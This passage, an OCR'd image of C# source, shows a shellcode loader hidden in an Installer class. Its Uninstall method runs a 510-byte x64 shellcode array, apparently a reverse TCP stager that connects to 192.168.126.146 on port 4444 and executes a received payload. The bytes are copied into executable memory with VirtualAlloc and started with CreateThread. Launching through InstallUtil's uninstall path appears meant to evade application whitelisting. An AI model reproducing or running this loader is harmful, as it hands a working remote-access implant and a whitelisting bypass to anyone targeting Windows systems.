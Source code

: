 ```csharp
}

[System.ComponentModel.RunInstaller(true)]
public class Sample : System.Configuration.Install.Installer
{
    public override void Uninstall(System.Collections.IDictionary savedState)
    {
        Shellcode.Exec();
    }
}

public class Shellcode
{
    public static void Exec()
    {
        byte[] shellcode = new byte[510] {
            0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
            0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
            0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
            0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
            0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
            0x01,0xd0,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
            0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,
            0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,
            0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,
            0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
            0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,
            0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,
            0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,
            0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
            0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x00,0x00,
            0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,0x49,0x89,0xe5,
            0x49,0xbc,0x02,0x00,0x11,0x5c,0xc0,0xa8,0x7e,0x92,0x41,0x54,0x49,0x89,0xe4,
            0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68,
            0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,
            0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,
            0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,
            0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,
            0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,0xce,0x75,0xe5,
            0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,0xc9,
            0x6a,0x04,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,
            0x83,0xf8,0x00,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,
            0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,0x41,
            0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,0x31,
            0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,
            0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,0x40,
            0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,0x30,0xff,0xd5,
            0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,0x3c,
            0xff,0xff,0xff,0x48,0x01,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,
            0xff,0xe7,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5
        };

        UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
        IntPtr hThread = IntPtr.Zero;
        UInt32 threadId = 0;
        IntPtr pinfo = IntPtr.Zero;
        hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }

    private static UInt32 MEM_COMMIT = 0x1000;
```